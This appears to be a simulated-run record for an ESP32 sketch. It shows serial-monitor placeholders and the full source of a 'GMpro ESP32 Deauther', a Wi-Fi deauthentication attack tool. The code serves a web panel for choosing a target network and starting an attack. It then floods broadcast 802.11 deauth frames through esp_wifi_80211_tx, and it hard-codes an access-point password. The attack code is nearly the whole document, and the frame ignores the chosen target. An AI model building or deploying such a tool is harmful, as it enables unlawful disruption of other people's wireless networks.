
Simulated run of this program. Board: ESP32. Shown: the last lines printed to the serial monitor. Inputs (shaded band) come from the test bench. A WiFi scan finds three made-up networks; EEPROM starts erased.

Above: at 4.3 s.
4.4 s: HTTP request GET /attack received
At 4.9 s:

5.9 s: HTTP request GET /stop received
At 7.2 s:


The program:

main.cpp
```cpp
#include <WiFi.h>
#include <esp_wifi.h>
#include <WebServer.h>
#include <DNSServer.h>
#include <Preferences.h>

#define AP_SSID "GMpro"
#define AP_PASS "Sangkur87"

WebServer server(80);
DNSServer dnsServer;
Preferences preferences;

String ssidList[50];
int ssidCount = 0;
bool attackRunning = false;
unsigned long packetsSent = 0;
unsigned long lastScan = 0;

void scanNetworks();
void sendDeauthPackets();
void handleRoot();
void handleScan();
void handleAttack();
void handleStop();
void handleStatus();
void handleApiSsids();
void handleNotFound();

void setup() {
  Serial.begin(115200);
  delay(1000);

  Serial.println("\n========================================");
  Serial.println("   GMpro ESP32 Deauther v2.1");
  Serial.println("      Sangkur87 Edition");
  Serial.println("========================================");

  WiFi.mode(WIFI_AP);
  WiFi.softAP(AP_SSID, AP_PASS);

  IPAddress IP = WiFi.softAPIP();
  Serial.print("AP Started: ");
  Serial.println(AP_SSID);
  Serial.print("IP: ");
  Serial.println(IP.toString());

  dnsServer.start(53, "*", IP);

  preferences.begin("deauther");
  attackRunning = preferences.getBool("attack", false);

  server.on("/", HTTP_GET, handleRoot);
  server.on("/scan", HTTP_GET, handleScan);
  server.on("/attack", HTTP_GET, handleAttack);
  server.on("/stop", HTTP_GET, handleStop);
  server.on("/status", HTTP_GET, handleStatus);
  server.on("/api/ssids", HTTP_GET, handleApiSsids);
  server.onNotFound(handleNotFound);

  server.begin();
  Serial.println("Web Server ready!");

  scanNetworks();
}

void loop() {
  dnsServer.processNextRequest();
  server.handleClient();

  if (attackRunning && millis() - lastScan > 50) {
    sendDeauthPackets();
    lastScan = millis();
  }
}

void scanNetworks() {
  WiFi.mode(WIFI_STA);
  delay(100);

  int n = WiFi.scanNetworks();
  ssidCount = min(n, 50);

  Serial.printf("Found %d networks\n", n);
  for (int i = 0; i < ssidCount; i++) {
    ssidList[i] = WiFi.SSID(i);
    Serial.printf("[%d] %s Ch:%d\n", i, ssidList[i].c_str(), WiFi.channel(i));
  }

  WiFi.scanDelete();
  WiFi.mode(WIFI_AP);
}

void sendDeauthPackets() {
  uint8_t deauthFrame[26] = {
    0xC0, 0x00, 0x00, 0x00,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA,
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA,
    0x00, 0x00, 0x07, 0x00
  };

  esp_wifi_80211_tx(WIFI_IF_STA, deauthFrame, 26, false);
  packetsSent++;

  if (packetsSent % 100 == 0) {
    Serial.printf("Packets sent: %lu\n", packetsSent);
  }
}

void handleRoot() {
  String html = R"rawliteral(<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>GMpro Deauther</title>
<style>
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', sans-serif; background: linear-gradient(135deg, #1e3c72, #2a5298); color: white; min-height: 100vh; padding: 20px; }
.container { max-width: 800px; margin: 0 auto; }
.header { text-align: center; margin-bottom: 30px; }
.header h1 { font-size: 2.5em; margin-bottom: 10px; }
.card { background: rgba(255,255,255,0.1); backdrop-filter: blur(10px); border-radius: 20px; padding: 25px; margin-bottom: 20px; border: 1px solid rgba(255,255,255,0.2); }
.status { padding: 15px; border-radius: 10px; text-align: center; font-size: 1.3em; font-weight: bold; margin-bottom: 20px; }
.running { background: rgba(255,68,68,0.8); }
.stopped { background: rgba(68,255,68,0.8); }
button { background: linear-gradient(45deg, #ff6b6b, #ee5a52); color: white; border: none; padding: 15px 30px; border-radius: 50px; cursor: pointer; font-size: 16px; font-weight: bold; width: 100%; margin: 10px 0; }
button:hover { transform: translateY(-2px); }
button.stop { background: linear-gradient(45deg, #51cf66, #40c057); }
select, input { width: 100%; padding: 15px; border-radius: 10px; border: 1px solid rgba(255,255,255,0.3); background: rgba(255,255,255,0.1); color: white; font-size: 16px; margin: 10px 0; }
select option { background: #2a2a2a; color: white; }
.networks { max-height: 300px; overflow-y: auto; }
.network { padding: 10px; margin: 5px 0; background: rgba(255,255,255,0.05); border-radius: 8px; }
</style>
</head>
<body>
<div class="container">
<div class="header">
<h1>GMpro Deauther</h1>
<p>Sangkur87 Edition | v2.1</p>
</div>
<div class="card">
<div id="status" class="status stopped">STOPPED</div>
<div>Packets Sent: <span id="packets">0</span></div>
<div>Networks: <span id="networks">0</span></div>
</div>
<div class="card">
<h3>Scan Networks</h3>
<button onclick="scanNetworks()">Refresh Scan</button>
</div>
<div class="card">
<h3>Select Target</h3>
<select id="ssidSelect"><option value="">Pilih SSID Target...</option></select>
<button onclick="startAttack()">START ATTACK</button>
<button class="stop" onclick="stopAttack()">STOP ATTACK</button>
</div>
<div class="card">
<h3>Found Networks</h3>
<div id="networksList" class="networks"></div>
</div>
</div>
<script>
function updateStatus(){
fetch('/status').then(r=>r.json()).then(d=>{
document.getElementById('status').textContent=d.running?'ATTACK RUNNING':'STOPPED';
document.getElementById('status').className='status '+(d.running?'running':'stopped');
document.getElementById('packets').textContent=d.packets;
document.getElementById('networks').textContent=d.networks;
});
}
function loadNetworks(){
fetch('/api/ssids').then(r=>r.json()).then(ssids=>{
const s=document.getElementById('ssidSelect');
const l=document.getElementById('networksList');
s.innerHTML='<option value="">Pilih SSID Target...</option>';
l.innerHTML=ssids.length?'':'<div>No networks found</div>';
ssids.forEach(function(ssid,i){
let o=document.createElement('option');o.value=ssid;o.textContent=ssid;s.appendChild(o);
let d=document.createElement('div');d.className='network';d.innerHTML='<b>'+ssid+'</b>';l.appendChild(d);
});
});
}
function scanNetworks(){fetch('/scan');setTimeout(loadNetworks,2000);}
function startAttack(){const s=document.getElementById('ssidSelect').value;if(s)fetch('/attack?ssid='+encodeURIComponent(s));else alert('Pilih SSID!');}
function stopAttack(){fetch('/stop');}
setInterval(updateStatus,1000);
setInterval(loadNetworks,3000);
loadNetworks();updateStatus();
</script>
</body>
</html>)rawliteral";
  server.send(200, "text/html", html);
}

void handleScan() {
  scanNetworks();
  server.send(200, "text/plain", "Scanning...");
}

void handleAttack() {
  attackRunning = true;
  preferences.putBool("attack", true);
  Serial.println("Attack STARTED");
  server.send(200, "text/plain", "Attack started!");
}

void handleStop() {
  attackRunning = false;
  packetsSent = 0;
  preferences.putBool("attack", false);
  Serial.println("Attack STOPPED");
  server.send(200, "text/plain", "Attack stopped!");
}

void handleStatus() {
  String json = "{\"running\":" + String(attackRunning ? "true" : "false") + ",\"packets\":" + String(packetsSent) + ",\"networks\":" + String(ssidCount) + "}";
  server.send(200, "application/json", json);
}

void handleApiSsids() {
  String json = "[";
  for (int i = 0; i < ssidCount; i++) {
    json += "\"" + ssidList[i] + "\"";
    if (i < ssidCount - 1) json += ",";
  }
  json += "]";
  server.send(200, "application/json", json);
}

void handleNotFound() {
  server.send(404, "text/plain", "GMpro Deauther - Not Found");
}
```

Measured:
- after the input at 4.4 s, the serial monitor: prints a new line at once (image 1)
- after the input at 5.9 s, the serial monitor: prints a new line at once (image 2)
